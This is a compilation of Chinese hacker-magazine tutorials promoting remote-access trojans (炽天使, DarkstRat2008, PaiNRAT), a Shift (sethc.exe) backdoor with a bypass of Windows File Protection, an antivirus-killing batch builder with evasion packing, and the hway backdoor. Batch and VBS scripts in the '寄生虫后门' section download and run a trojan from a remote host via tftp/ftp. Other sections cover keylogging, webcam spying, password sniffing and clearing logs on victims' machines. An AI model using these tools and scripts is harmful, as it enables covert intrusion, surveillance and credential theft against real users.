由此也可以看到，服务端并没有对自己的通信端口进行隐藏。

“键盘记录”功能主要用于记录用户的键盘操作。在弹出的窗口中选择“开始记录”按钮，程序就开始进行记录操作了。我在测试过程中发现，本来运行正常的系统突然变得很缓慢，看来这个功能还需要进一步改进才行。虽然最终成功记录下了输入的英文信息，但是在测试中文信息时却没有记录成功，如图8。当成功获取到键盘消息后，通过鼠标可以将其复制下来进行保存。


#### 三、小结

小锋远控的基本功能制作得还算可以。据了解，小锋远控在以后的版本中将会加入插件功能，这样就可以让程序功能得到较大的扩展了。但目前的程序还处于测试阶段，因此每一个功能都还需要不断增强和改进，并且进一步完善程序的稳定性和隐蔽性。（本文所涉及到的小锋远程控制程序已收录到光盘中）

## 让Shift后门穿透系统文件保护

关于Shift后门大家应该都知道吧，其实这个后门只是一个Bug罢了，就是在登录界面连续按五下Shift键会以System权限启动system32目录下的sethc.exe，所以我们只要对sethc.exe做下手脚，就可以实现一个既隐蔽又不会被查杀的后门了。比如，把sethc.exe替换成cmd.exe或explorer.exe，这样我们就可以启动CMD命令提示符或系统桌面程序了。当然，这样的缺点就是任何人都可以使用我们的后门。记得Shift后门刚出道时就有人拿端口扫描器连扫3389，连接上之后狂按Shift键（这法子我倒是没有试过），据说一小时之内就搞定了四台服务器……


为了防止这样的情况，小菜们也想出了对策，就是给Shift后门添加上密码，方法也是多种多样的，有人使用批处理，有人使用VBS。不过出于个人的懒惰，我的方法是使用VB6.0编写了一个比Hello World高级不了多少的程序，界面很难看（能用就行），如图1。代码只有一句：`if text1.text="password" then shell "c:\windows\explorer.exe" else end`。意思就是如果输入的文本是“password”的话，程序就会运行explorer.exe程序。


上去。现在想加个隐藏账户可不是那么简单的了，有的管理员甚至把查看影子用户的程序都添加到了启动项里，所以说添加用户并不是长久之计。于是我拎着Shift后门就冲了上去，直接将后门程序改名为sethc.exe，覆盖到system32目录下，正准备进入Shift后门清理一下战场，却发现我的Shift后门根本没有反应，弹出来的还是原来的粘滞键设置。我非常郁闷地再次进入了服务器，发现system32下的sethc.exe已经变回去了，可是我刚才明明把它覆盖了啊。突然想到，Windows系统有一个功能叫做系统文件保护，它可以把被修改的系统文件还原。我上网查了一下相关资料，得知可以通过组策略禁用它。在服务器里按Win键+R，运行gpedit.msc，找到“计算机配置”→“管理模板”→“系统”→“Windows文件保护”，在右边选择“设置Windows文件保护扫描”，更改为“已禁用”，如图2。心想这下没问题了，再把sethc.exe覆盖成后门，等了大约十秒钟，发现那个文件又被改回去了，欲哭无泪啊。

我仔细想了下：光是在组策略里禁用可能不会马上生效。我又到网上搜索了一下有关系统文件保护的资料，发现系统文件保护和Windows系统服务中的“Cryptographic Services”有关系，这个服务可以识别并更新系统文件，如图3。赶紧把这个服务关掉，然后把sethc.exe再次覆盖，这回终于成功了。我们再把“Cryptographic Services”服务开启（免得被管理员发现），注销系统后再使用Shift后门登录系统把刚才添加的用户删掉，清除下日志，大功告成！在实际操作过程中遇到了一个问题，按理说Windows系统文件保护应该是从system32下的dllcache文件夹里拷出文件，但在那台服务器里没有dllcache这个文件夹，不知道为什么，还请高手们告知。

### 为木马的入侵开路

痛并快乐着


我们都知道，病毒和木马最重要的区别就是病毒会破坏系统中的文件，而木马则主要是为了远程控制。可是现在的病毒已经从破坏系统转到了破坏杀毒软件上，从AV终结者、机器狗等病毒就可以看出这种转变。那么我们这些小菜能做到这一点吗？我相信一款名为Abetter的软件可以帮助我们实现。

双击运行Abetter程序，这款程序本来是德文界面的，好在有网友简单地进行了汉化。首先在“煽动者名称”和“另存为”选项中设置生成文件的名称和存放地址，由于这个文件后期还需要进行捆绑，因此这里按照默认设置即可。接着勾选上“杀行列”中的所有选项，其中包括了结束系统安全设置以及常见杀毒软件的内容。由于这是一款国外的黑客软件，因此杀毒软件也全是国外的，这不能不说是一种遗憾。在“额外的命令”中输入其他的命令，比如我们输入“ping 127.0.0.1”，这样就可以延迟木马运行做准备了。再在右上方的“特别功能”中选择“主动传播”，这样生成的文件就可以进行主动传播了。最后在“运行”中选中“标准”，然后设置需要运行的木马名称，当然还可以设置一个用于迷惑用户的其他文件，比如图片文件、音频文件等。设置完成后，点击“生成”按钮即可，如图1。


文件创建成功后我们会发现，生成的文件竟然是一个批处理文件，这样也便于我们进行修改。使用记事本打开这个批处理文件，可以看到文件主要是利用结束杀毒软件的服务或进程来达到保护木马入侵的目的。因此我们可以在代码中针对国产杀毒软件进行一些代码添加，比如“tskill Ravmond.exe”就可以结束瑞星的进程。然后多复制几行“ping 127.0.0.1”代码，从而保证结束杀毒软件进程的时间充裕，如图2。


通过WinRAR将批处理文件和木马程序进行压缩，接着创建一个自解压文件，只需要在“解压后运行”中输入批处理文件的名称即可。最后运行“WinRAR自解压完美免杀补丁”，点击“应用”按钮选择刚才创建的自解压文件，程序就会自动为其进行免杀补丁操作，如图3。这样就可以避免用户对收到的自解压文件进行查杀而发现问题了。

（本文所涉及到的Abetter、WinRAR自解压完美免杀补丁已收录到光盘中）

## 炽天使4.0黑客X档案终极使用手记


炽天使是国内一款非常优秀的远程控制软件。它是国内首款基于插件式概念结构扩展的远程控制软件，可以主动防御，是它的一大亮点……在以前的《黑客X档案》杂志上曾经有人介绍过炽天使的早期版本……《黑客X档案》与炽天使官方联合推出了炽天使4.0黑客X档案专版。


#### 一、配置服务端

打开炽天使4.0黑客X档案专版，其界面如图1所示……先生成一个服务端，点击图标栏左边的“生成服务”，就可以打开服务端生成窗口了。在“基本信息”中可以设置肉鸡上线后的注释、文件名、服务名和描述……通过右边“修改图标”按钮可以给服务端替换图标，如图2。

切换到“连接设置”选项，在这里可以设置上线方式和上线端口，炽天使提供了动态域名上线和利用URL获取IP地址的上线方式……

上线方式对于木马/远控的使用非常关键。打开“高级设置”，可设置注入进程（iexplore.exe、explorer.exe、svchost.exe等）、CPU心跳通知、首次运行后删除等，连接一般选择“TCP直接连接”，如图4。

在“生成设置”里可勾选“程序自保护（隐藏端口、服务、文件和过主动防御等）”。“压缩设置”可选择是否加壳压缩；“版本选择”可在无视频基本版、有视频基本版和迷你版之间切换，如图5。全部设置完毕后点击“生成”即可。


### 二、软件的控制功能

生成的不加壳压缩、有视频的基本版大小约为171K，暂时还不被部分杀软查杀……我们再进行免杀处理就可以了。点击图标栏中的“开始服务”按钮来监听上线端口，在本机运行刚才生成的服务端程序，立刻桌面右下角弹出了上线提示，再到炽天使的主界面看看，已经成功上线了，如图6。


图6

其中“CPU心跳”显示的是被控电脑的CPU利用率，这个名称起得比较有意思。下面我们就具体介绍一下炽天使的几大功能。先来看它的CMD功能，炽天使提供了两种运行cmd命令的模式，一种是以SYSTEM权限来运行命令，这也是很多远程控制软件都有的功能；还有一种就是以某个用户的权限来运行命令。选择CMD菜单下的“Run As”，输入用户名和密码就可以以该用户的权限来运行cmd命令了，如图7。


图7


图8

“文件管理”采用了类似Radmin的文件管理模式，查看、管理文件都非常方便。在传输文件时，炽天使还提供了速度限制功能，这可以避免因占用大量带宽而被发现，如图8。

接下来我重点介绍一下炽天使的“插件管理”功能。炽天使的所有功能都是基于插件的，也就是说每一个控制功能都有与之对应的插件。默认情况下炽天使已经安装了“进程管理”“服务管理”“系统信息”“屏幕监控”“注册表管理”“视频语音”等六个内置插件。目前为止，炽天使的插件一共有17个，除了内置的六个外都是可选的。选中想要安装的插件，然后点鼠标右键，选择“安装插件”，如图9。安装完成后选中该插件，点插件管理窗口中的“执行插件”按钮，或点鼠标右键选择“执行插件”，就可以使用插件的功能了。


图9

采用插件形式使得软件功能的扩展变得非常容易，想增加什么功能的话只需要增加相应的插件就行了。“网络扫描”插件支持内网扫描，方便进行内网渗透；“安装Winpcap”插件可以给目标电脑无界面安装Winpcap包，方便使用软件进行嗅探和ARP攻击；“登录密码（Gina）”插件可以获取管理员登录3389时的用户名和密码信息；“双开3389”插件可以给XP系统的电脑实现一键双开3389，如图10。


图10

“键盘记录器”可以记录键盘输入的中英文信息。除了以上这些插件外，“应用代理”“缓存口令”“端口映射”“拨号密码”等插件的功能也非常实用，限于篇幅就不一一介绍了。“进程管理”可以查看远程计算机上的进程，并可以结束很多进程。“服务管理”可以查看对方的服务，并可以对指定的服务进行启动、停止、删除、改变启动方式等操作，如图11。

## 驭马记


“系统信息”可以查看电脑的配置和网络情况，显示是否有视频设备等。点“屏幕监控”按钮后就会弹出设置窗口，可以对监视的画面质量进行选择。颜色越多，画面越好，当然占用的带宽也越多，我们还可以设置“自动保存画面”，如图12。


“注册表管理”提供了类似Windows系统的注册表管理界面，可以方便地对注册表项进行新建、删除、复制等操作，如图13。“视频语音”功能可以对远程电脑进行视频和语音监控，并可以把视频直接保存为AVI文件，还可以直接和对方进行语音交流，如果对方正好是个漂亮MM，嘿嘿，那就有得玩了，如图14。


其实炽天使4.0黑客X档案专版还有很多丰富的功能，我们在上线主机上点右键，就可以看到更多功能了，如图15。

其中“打开指定网页”“上传并执行”“断开连接”等绝大多数远程控制软件都具有的功能就不介绍了，我只介绍几个别的远程控制软件中很少具有的功能：“Rootkit隐藏”可以隐藏指定的文件，即使你勾选了“文件夹选项”中的“显示所有文件和文件夹”也看不到；“修改配置”功能可以对上线密码、注入的进程等进行重新设置；“清空系统日志”功能非常实用，可以用来擦PP。

最后我再简单介绍一下炽天使4.0黑客X档案专版中所增加的功能和特点：

- 1. 代理插件升级为2.0，修正了1.0中第二次连接时CPU 100%的Bug。
- 2. 修改了文件管理的操作风格。
- 3. 修改了配置生成文件名太长时无法运行的Bug。
- 4. 去除了VMware虚拟机限制。
- 5. IP显示实现了内外网区分，一眼就可以看出电脑是属于内网还是外网的。
- 6. 增加了黑名单功能，可以限制一些电脑不上线。
- 7. 系统信息插件升级为2.0，增加了IP显示功能。
- 8. 增加了可以清除对方系统日志的功能。
- 9. 增加了复制和查看对方IP地址的功能。
- 10. 增加了断开连接功能。
- 11. 增加了FTP更新工具。
- 12. 增加了端口映射服务器工具（该工具是配合反向端口映射插件使用的）。
- 13. 增加了双击功能管理设置。
- 14. 增加了拨号口令插件，可以查看对方拨号连接的用户名和密码。
- 15. 增加了端口映射插件，这是4.0版新增的特色插件，支持正向反向、TCP和UDP协议，适合于把内网3389主机映射出来连接。
- 16. 增加了双开3389插件，这也是4.0版新增的特色插件，可以一键双开3389终端登录，并可带“启用3389、添加系统隐藏用户、克隆Guest用户、删除隐藏系统用户、关闭系统防火墙”等辅助功能。

#### 三、小结

炽天使4.0黑客X档案专版采用了内核级驱动技术，可以躲过大多数杀毒软件的主动防御，隐藏性很高，使用冰刃无法查看到炽天使服务端的服务。基于插件式的概念结构扩展可以方便地增加功能，有多个插件支持内网渗透和通信加密，使炽天使成为了一款非常优秀的远程控制软件。当然它也是有缺点的，比如还不太稳定，卸载服务端后要等重启程序后才能从上线主机列表中消失等。希望软件作者在下一个版本中能够修复这些Bug，使软件越来越好用。

> （文章中涉及到的炽天使4.0黑客X档案专版已经收录在光盘中）

### 远程控制的另类选择

痛并快乐着 —— **DarkstRat2008**


想要抓肉鸡就必须要有一款好的木马程序，今天我就来介绍一款全新的木马程序DarkstRat2008，它在控制功能上可是有很多独到之处哦，我们还是赶紧来看看吧。

#### 一、配置服务端

首先运行DarkstRat2008的客户端程序，点击工具栏中的“生成服务端”按钮，在弹出的配置服务端窗口中进行必要的设置。在“基本选项”中设置反弹连接的地址、端口以及连接时间。由于木马默认使用的是80端口，因此很容易突破防火墙的拦截。在“高级选项”中主要设置木马的启动方式，包括了替换BITS服务和新建服务这两种。通过替换服务可以看出，作者借鉴了“创建Svchost.exe调用的服务原理与实践”一文中的内容，使用的是和冰冷箭的BITS后门所类似的一个替换技术，随机自动启动并可以轻松穿透防火墙的拦截。点击“选择图标”按钮来对服务端程序的图标进行伪装，该木马可以从可执行文件中提取相关图标，最后点击“生成”按钮就可以创建我们的服务端程序了，如图1。


图1


图2

打开“窗口”项，通过右键中的命令我们可以执行关闭、显示、隐藏等控制操作。除了上面的这些基本操作外，还包括了抖动窗口、转到进程和键盘发送这三个特殊命令，如图3。


图3

#### 二、服务端功能

服务端程序创建完毕后，就可以上传到远程电脑里运行了。我们点击客户端工具栏中的“开始监听”按钮，很快客户端程序就弹出了提示窗口，服务端连接成功了。在上线列表中选中上线的主机，单击鼠标右键，就可以在菜单中看到所有的控制命令了，其最重要的控制命令都包括在“管理主机”中。

点击“控制中心”窗口中的“服务端信息”和“系统信息”，通过它们可以查看远程电脑中的服务端信息和系统配置信息。比如在“系统信息”里可以看到操作系统的版本、CPU类型、内存信息、杀毒软件、防火墙等，尤其是其中的“检测辅助”功能还可以判断出服务端是运行在真实主机里还是运行在虚拟机里，如图2。

再来看“进程”，在这里可以查看远程电脑中正在使用的进程，其中包括了隐藏进程。选中某个进程点右键，选择“结束进程”，就可以结束该指定的进程了。为了保证系统资源得到合理分配，Windows系统将进程分为了系统进程和用户进程两种，系统进程用来支持系统基本的运行环境，因此用户最好不要结束它们，以免使系统崩溃。

比如“抖动窗口”就模仿了QQ的窗口抖动效果，木马可以对指定的窗口进行抖动操作，不过前提是这个窗口是正常显示的。“转到进程”命令可以让选择的窗口和对应的进程快速关联起来，而选择“键盘发送”命令后，在弹出的“发送键盘命令”窗口中就可以对窗口名称进行修改，同时也可以输入一段信息添加到窗口中，如图4。


图4

## 木马记

项以及键值，最后通过右键菜单中的刷新、修改、删除、重命名等命令对其进行修改，当然也可以通过新建命令来添加新的项和键值。在“服务管理”中，我们可以查看远程电脑中的系统服务，通过右键菜单中的命令可以对系统服务进行刷新、启动、停止、删除等操作。另外我们还可以创建新的服务项，点击“新建”命令后就会在窗口下方看到一个新建服务的向导，按照提示一步步进行操作就可以了，如图5。


图5

点击“超级终端”，然后点击窗口中的“设置字体”和“背景颜色”进行相应的设置，这样就不会在传统的黑底白字窗口下进行操作了。设置完成后，点击“开启Telnet”按钮，就可以激活终端服务命令，这样就可以在窗口中执行各种终端命令，拓展木马的控制能力了。打开“文件管理”，点击窗口中的“获取磁盘”命令，就可以获取远程电脑的磁盘信息，然后选择想要查看的目录或文件进行管理操作了，也可以直接在“路径”栏中输入想要查看的路径，或直接进入到想要查看的目录信息中。在文件管理窗口中通过右键菜单中的命令，可以执行上传、下载、打开、重命名等操作，尤其是可以一次性将多个文件添加到下载列表中来执行下载任务，如图6。无论是文件上传还是下载，都可以在“传输状态”中进行查看，在传输列表中对传输的文件进行暂停、删除、下移、上移等操作。


图6

打开“屏幕监视”，就可以对远程桌面进行查看了。首先根据自己的实际情况，在“颜色”列表中选择查看远程桌面的颜色，颜色越高则查看效果就越好。点击“抓取”按钮，就可以对远程桌面进行捕捉操作了。由于木马默认采取的是单张抓取，因此要连续抓屏的话需要选择“自动抓取”选项，如图7。如果选择了“控制鼠标”，就可以直接通过本地鼠标进行远程控制操作了，不过我在实际操作中感觉该功能还不是太完善。大家有没有感觉到由于控制窗口太狭窄了，因此进行查看和操作起来都非常不方便，我们点击“全屏”按钮就可以看到一个完整的桌面了，并且传输的速度也是非常快的，如图8。


图7


图8

点击“视频监视”项，然后点击“获取摄像头”按钮，就会先检测远程系统中是否安装有摄像头。如果有的话就可以在列表中进行设备的选择，选中“自动捕获”按钮就可以捕捉远程的图像信息了。接下来我们点击“发送消息”，在这里可以设置向远程计算机发送的错误消息，首先选择需要提示的图标和按钮风格，然后在“消息标题”和“信息”输入框中分别输入提示窗口的标题和内容，例如“系统错误，需要立即重新启动”等，设置完成后点击“发送”按钮即可。另外木马还提供了恶作剧功能，其中包括了鼠标抖动、锁定鼠标、颠倒鼠标按键、开启/关闭光驱、隐藏桌面图标、禁用开始按钮、隐藏任务栏等，我们可以调整状态栏中的选项，然后点击“发送”按钮就可以实现这些恶作剧功能了。

#### 三、小结

到此为止，关于DarkstRat木马的使用介绍得就差不多了，你可以看到DarkstRat木马除了基本的功能外，在很多功能上都加入了自己的设计理念，并且在控制方面表现得更加方便易用……总的来说DarkstRat木马还是非常优秀的，非常值得广大木马爱好者进行使用。

### 全手动打造“寄生虫”后门

swan


今天给大家讲解一下新的后门……当我们习惯了SHIFT后门带给我们的方便的同时，也应该去系统中寻找更加隐蔽的后门。

我来解释一下上边的命令：`echo+内容>>1.TXT`、`ftp -s:1.TXT`、`del 1.TXT`、`X\木马.exe`……

schedule服务的描述是使用户能在计算机上配置和制定自动任务……我来简单介绍一下AT命令的一些常用参数：

> `time` 指定运行命令的时间；`/interactive` 允许作业与会话用户桌面交互；`/every:date` 在每个星期或月的指定日期运行命令……

### 1.VBS的内容如下：

```vb
set ws=wscript.createObject("wscript.shell")
ws.run "1.bat",0
wscript.sleep 10000
```

### 1.bat的内容如下：

```bat
@echo off
@net start schedule
ping 127.0.0.1
ping 127.0.0.1
at 18:03 /interactive 2.vbs
```

使用AT命令可以让远程或者本地计算机在任何指定时间循环下载各类程序……使用TFTP的命令如下：

```bat
@TFTP -i swan7110.3322.org get muma.exe 存放地址\muma.exe
@start muma.exe
```

### 2.bat的内容如下：

```bat
@echo off
@del d:\muma.exe
@tftp -i 60.176.123.67 get swan.exe d:\swan.exe && start d:\muma.exe
```

```bat
@echo open 你的动态域名>1.TXT
@echo 用户名>>1.TXT
@echo 密码>>1.TXT
@echo get 木马.exe 保存的地址>>1.TXT
@echo bye>>1.TXT
@ftp -s:1.TXT
@del 1.TXT
@X\木马.exe
```

2.bat其实就是一个TFTP下载命令……文章写到这儿就结束了。

## 青出于蓝而胜于蓝的PaiNRAT


以前我一直认为国产的灰鸽子就是木马的集大成者……因此今天我们就一起来感受这个“青出于蓝而胜于蓝”的PaiNRAT。

#### 一、配置服务端程序

PaiNRAT木马的配置和其它木马有所差别……先在“创建新的配置文件”中输入配置文件名，再点击“创建”按钮。

这样就激活了该木马的配置选项内容，接下来就可以进行配置操作了（图1）。


图1

在“版本设置”中主要用来设置服务端的上线信息、连接IP地址、连接端口等内容；“启动”选项用于服务端启动项的设置；还可以通过相关选项实现目录伪装、捆绑文件、隐藏、反调试、绕过防火墙等功能，最后点击“生成服务端”即可生成对应程序（图2）。


图2

#### 二、服务端程序控制

将生成的服务端程序上传到局域网内另一台电脑运行后，在客户端“连接”列表中即可看到远程主机。选中主机后可通过右键“连接”或双击进入控制窗口进行操作。

### 1．常规控制命令介绍

从弹出的控制窗口中可以看到，PaiNRAT将控制命令集中在左侧窗口，右侧为具体操作窗口。PaiNRAT的控制命令非常丰富，我们就选择其中一些常见的以及有特色的控制命令来进行讲解。首先点击命令列表中的“文件管理”（File Manager），然后在窗口右侧中点击“驱动器列表”按钮，本地就会自动获取远程计算机的磁盘列表信息。从列表中选择想要查看的磁盘，就可以在窗口中显示出该磁盘的文件和文件夹了。我们通过右键中的“快速访问”命令，可以方便地进入Windows、System32等目录中。另外，通过右键菜单中的命令还可以执行文件传输、文件打开、文件访问等操作（图3）。


图3

文件传输的整个过程都可以在“文件传输”中查看到，传输中的文件可以进行暂停、删除、上移、下移等操作。除了常见的文件管理外，通过文件搜索功能（Search Files）还可以进行特定文件的搜索。比如设置好需要搜索的目录以及文件名，点击“开始搜索”按钮就可以进行搜索操作，搜索完毕后就可进行简单的文件管理操作了（图4）。如果基本的搜索功能不行的话，我们还可以启动高级搜索功能。


图4

点击列表中的“窗口管理”（Window Manager）命令，先通过右键中的“刷新”命令获得窗口列表，再通过右键命令执行隐藏、关闭、显示等控制操作。其中“失效”命令可以让该窗口无法正常使用，而“进程”命令则可对指定窗口所属进程进行管理，其下的“暂停”命令可以使这个窗口失去响应（图5）。

点击列表中的“注册表功能”（Registry Editor），然后在模拟的注册表编辑器窗口左侧选择需要查看的主键，再依次查看详细信息。可通过双击名称进行更名，也可通过右键命令进行操作。此外，PaiNRAT还提供了一种“注册表搜索”功能：先设置主键及内容，再选择搜索范围，最后点击“开始”按钮即可（图6）。


图5

再通过“服务管理”（Service Manager）来获取远程计算机中的服务信息，然后通过右键中的命令就可以进行启动、停止、删除等操作了。另外，如果我们点击新建服务，就会在窗口的下方出现一个新建服务区域，输入服务的名称、服务说明、可执行文件等信息，然后点击“新建服务”按钮就可以创建一个全新的服务了（图9）。


图8


图6

点击列表中的“进程管理”（Process Manager），通过右键中的“刷新”命令来获得进程列表，这样就可以查看到正在使用的系统进程信息了。PaiNRAT木马将隐藏的进程进行了特别的标注，从图7中我们就可以清楚地看到一个隐藏的IE进程。通过右键中的命令不仅可以调整进程的优先级，还可以结束或者暂停某个进程。其中的“模块”命令可以查看到指定进程中的模块信息。


图9

### 2．其它控制命令介绍

上面只是对一些常见的控制功能进行了介绍，其实PaiNRAT木马还有很多别的控制功能，我们接着进行介绍。点击功能列表中的“屏幕捕获”（Screen Capture）功能，就可以看到远程桌面的当前情况了。默认状态下木马采用的是单张抓取，如果想连续抓取的话可以选择“自动”选项。如果大家感觉默认的控制界面太小的话，可以点击“全屏”按钮在弹出的窗口中进行控制查看。另外通过“远程点击”我们还可以直接通过鼠标对远程桌面进行控制。不过我在测试的过程中发现，该功能还非常不完善，经常会出现假死的状况。


图7

“启动管理”（Startup Manager）也是一个不常见的功能，在其中可以看到注册表以及系统启动目录中的启动项，通过右键中的命令可以进行删除等操作。另外还可以增加新的启动项目，我们只需要设置添加的位置以及项目名称和启动命令，点击“添加”按钮后就可以增加新的启动项了（图8）。

通过列表中的“设备管理”（Device Manager）可以查看管理远程系统中的硬件信息，而“剪贴板管理”（Clipboard Manager）命令不仅可以查看到远程剪贴板中的信息，还可以得知该剪贴板信息是来自于哪个文件。最后来看一下“服务管理”（Service Manager）命令，还是先通过鼠标右键中的“刷新”命令来获取远程计算机中的服务信息。

通过“网络摄像头捕获”命令可以获取远程电脑的摄像头视频信息，点击“摄像头”按钮就可以检测远程系统中的视频设备，如果存在的话就可以在列表中进行选择，然后选中“捕获”按钮就可以看到通过设备捕捉的图像了。

如果我在前面配置服务端的时候选择了键盘记录功能的话，那么现在就可以通过“键盘记录”功能进行查看了。点击该功能后，就可以在窗口中看到木马所记录下的内容，其中包括输入文本的名称、输入时间以及内容等。另外还可以在窗口下方输入需要高亮显示的信息，这样便于对重要消息的分析查找，不过这些只支持英文信息的显示（图10）。

相信大家现在都非常清楚，目前非常流行利用移动设备来进行病毒的传播，PaiNRAT木马也有一个类似的功能——USB设备（USB Drives）。点击窗口中的“开始USB监测”按钮，就可以检测远程主机的移动设备信息。复制到移动设备中时，只需要在“自动复制文件到USB”中输入要复制的文件路径，然后选择“自动复制文件到USB”和“创建的Autorun.inf”选项即可。这样当移动设备插入其它的电脑系统后，复制到其中的文件就会立即自动运行了（图11）。

PaiNRAT木马除了拥有密码记录功能外，还可以进行密码的嗅探操作，包括对IE浏览器、MSN、Firefox等常见软件的密码进行嗅探。点击功能列表中的“超级终端”命令，就可以成功激活远程系统的命令提示符功能，在窗口的命令行中输入命令，就可以在窗口中看到终端反馈的结果信息了（图13）。“脚本管理”功能可以让用户自己编写批处理代码或VBScript代码，编写完毕后可以先在本地系统中执行，然后再在远程系统中进行创建和执行。另外“显示管理”功能还可以对远程显示器进行查看管理，通过“当前分辨率”和“默认显卡”按钮，可以查看到显示器的分辨率以及所使用的显卡。通过分辨率列表中的选项，我们就可以对显示器的分辨率和刷新率进行更改。


图10


图11


图13

使用过灰鸽子的朋友都知道，木马可以将本地系统设置为网络服务器，比如Web服务器或Socks5服务器，PaiNRAT木马也包含了这样的功能，只不过嫁接的是Socks4服务器而已。比如我们要设置Web服务的时候，首先需要在“服务器目录”下拉菜单中设置要作为服务器的磁盘目录，接着设置服务器使用的IP地址和端口，然后点击“启动Web服务器”按钮。我们还可以执行文件的HTTP和FTP下载，以及通过FTP协议将文件上传到指定的服务器。另外PaiNRAT木马还可以进行端口扫描，设置好需要扫描的IP地址和端口范围，点击“开始扫描”按钮就可以了（图14）。除此之外，PaiNRAT木马还可以对系统的Hosts文件进行修改。可能有的朋友会认为这个功能没有什么作用，其实我们可以使用它来屏蔽杀毒软件的官方网站，这样就可以造成杀毒软件无法升级病毒库了，这样做有什么作用就不用我再多说了吧（图15）。


图14


图12


图15

#### 三、小结

到此为止，PaiNRAT木马中的主要功能就介绍得差不多了。从上面的介绍可以看出，该木马不仅在功能上远远超出了灰鸽子，而且在功能创新方面也是其它木马所不能比的。虽然木马不能截取中文信息，桌面查看功能也有待进一步的改善；但是瑕不掩瑜，PaiNRAT木马仍然是一款非常优秀的木马，因此我强烈推荐大家进行使用。

> （文章中涉及到的PaiNRAT木马已经收录在光盘中）


## 致小菜：使用后门程序hway

随着木马程序功能的越来越多，小菜们对于后门程序的关注则越来越少了，但是后门程序的隐蔽性往往都要强过木马程序。不久前我在暗组论坛就发现了一个全新的后门程序hway，测试以后感觉很不错，因此特地介绍给大家使用。

牧马人

## 一、Hway后门简介

Hway后门程序首先会创建一个名为Windows Infrared Port Monitor的服务，我们不能手工停止该服务，除非是卸载掉该服务。接着就会利用进程hostsvc.exe来启动后门程序，并将其插入到svchost.exe进程中。同时Hway具有线程保护的相关功能，从而实现了无启动项和无进程。后门除了基本的控制功能外，还可以对系统发出的数据信息进行嗅探，并且记录下发出的POST数据和FTP密码。另外，Hway后门会将安装日志写到系统system32目录的hwaylogV3.txt文件中，而嗅探日志则会记录在系统system32目录的snifflogV3.log文件中。

## 二、Hway后门安装

我们可以把hway.dll复制到任意目录下进行安装，Hway后门最简单的安装方法就是在命令提示符窗口中输入安装命令 `rundll32 hway.dll,install`，如图1。


图1

Hway默认监听的是133端口，通过设置参数可以选择监听或者不监听，其中参数1表示监听，而0表示不监听。默认的激活码为hway，当然我们也可以自定义这些参数，比如输入命令 `rundll32 hway.dll,install 1 hack`，就表示在安装的时候打开133端口，并且将激活码设置为hack。安装完成后hway.dll将会被自动删除，这就说明Hway后门已经安装成功了，反之则表示安装失败。另外，Hway后门还有一些隐藏的参数，比如输入命令 `rundll32 hway.dll,install 0/1 activeString http://www.x.com/abc.php`，这样就在安装后门的时候输入了一个网址，后门便会每过半分钟自动读取一次这个网址，而我们可以在网址文件上写入命令来进行控制，比如输入“hway-o”，就可以让远程系统打开133端口，也可以利用“hway-r-http”命令，让服务端自动下载指定的文件等。

## 三、Hway后门控制

Hway后门的连接也是非常简单的，使用Telnet或者NC直接连接远程IP地址的133端口即可，比如输入命令 `telnet/nc IP 133`，当出现提示“>”后，我们再输入激活码就可以连接成功了。连接成功后激活后门客户端，就可以查看到相应的控制命令，如图2。当然我们也可以利用Hway后门的客户端client进行连接，输入命令 `client IP -133` 即可。


图2

从上图中我们可以看到，Hway后门包括了查看系统参数、查看系统进程、打开终端服务、文件上传下载等功能。比如输入sysinfo命令，就可以查看到系统的CPU和内存情况；输入pslist命令，就可以查看到系统当前的进程，包括进程的名称和PID。通过pkill id命令，就可以查杀指定的系统进程，如图3。让我感到非常意外的是，Hway后门还有截图功能，输入cap命令就……


图3

可以对远程屏幕进行截图了，该功能首先会将图片保存到远程系统中，然后再下载到本地的系统目录中，如图4。


文件的上传下载也很简单，通过 `download` 和 `upload` 命令就可以进行操作。比如我们要下载 `c:\boot.ini` 到本地电脑中，就在输入命令 `download c:\boot.ini` 后，设置一个另存为路径就可以了，如图5。


需要说明的是，只有通过专用客户端连接才可以传送文件，利用 Telnet 或 NC 是不可以的。


有时候我们使用 client 连接后，截图或传输文件可能会由于网络延迟而没有回显，这时大家按几下回车就可以了。当我们上传了文件后，可以通过执行 shell 命令进入远程命令提示符窗口，然后通过 dir 命令就可以对文件进行查看了，如图6。

#### 四、小结

通过上面的使用我们可以看出，Hway 后门程序的功能的确有限。但是如果配合木马进行使用，就可以更好地进行控制操作。其实我们也可以利用 Hway 后门来“养马”，当需要的时候激活监听端口，再上传木马程序进行控制操作，这样就可以更好地进行后门的隐藏了。

（本文所涉及到的 hway 已收录到光盘中）

### 让内网玩木马更方便

痛并快乐着


目前国内外的木马程序基本上都是采用反弹连接的方式，但是这种方式对于局域网内的用户操作起来就非常困难了，因为使用者必须用到端口映射技术将本地主机的监听端口映射到拥有外网 IP 地址的主机上才行。这就需要用户拥有一台有外网 IP 地址的电脑，或者是用户获得局域网网关的控制权限，这对于内网中的普通用户来讲是非常困难的，因此本文我就给大家介绍一款简单实用的工具——“苹果茶”内网建站程序。

#### 一、申请服务域名

由于苹果茶提供了三种不同的服务，因此它拥有三个不同的官方网址。比如提供的动态域名解析服务，官方网站就是 www.meibu.com；而和内网建站相关的域名解析服务，采用的则是 www.wuip.com 和 www.meibu.org 这两个域名。这两个域名提供的内网解析服务的不同之处在于，www.wuip.com 提供的是 VPN 转发这种方式的内网解析服务，而 www.meibu.org 提供的则是 TCP 隧道这种方式的内网解析服务。

本文我们就以 VPN 方式的服务为例进行介绍。首先登录到苹果茶内网建站网站，点击页面上方的“用户注册”链接，在弹出的网页中点击“我同意”，就会进入注册页面了。注册步骤非常简单，我们只需要填写好那些相应的信息就可以，如图1。由于这个动态域名解析服务的账号是不能通用的，因此倘若大家需要使用其它的服务，就需要注册其它的账号才行。另外，下载并安装的苹果茶客户端软件也是不能通用的。


#### 二、启动客户端程序

服务账号注册完成后，从网站下载对应的苹果茶客户端程序，因为只有通过它才能完成相关的服务。运行客户端程序后，在弹出的窗口中输入注册的域名和密码，注意这里输入的是域名而不是注册的用户名，成功登录后就可以使用了，如图2。当局域网中的电脑分配到外网的 IP 地址后，就说明自己的电脑和苹果茶服务器已经连接成功。由于我们注册的账号使用的是 VPN 技术进行服务的，而 VPN 在逻辑上是服务器和电脑同为一局域网，因此服务器就能帮助我们进行数据转发。


现在运行任一款木马的客户端程序，打开监听端口就可以等着服务端自动上线了。不过由于木马的监听端口不同，因此我们最好将木马的监听端口都设置为 80，这样就可以更好地保证肉鸡成功上线了。比如灰鸽子木马默认的监听端口为 8000，在运行灰鸽子木马后，点击“系统”菜单下的“系统设置”，在弹出的窗口中将“自动上线端口”中的 8000 改成 80 即可，如图3。

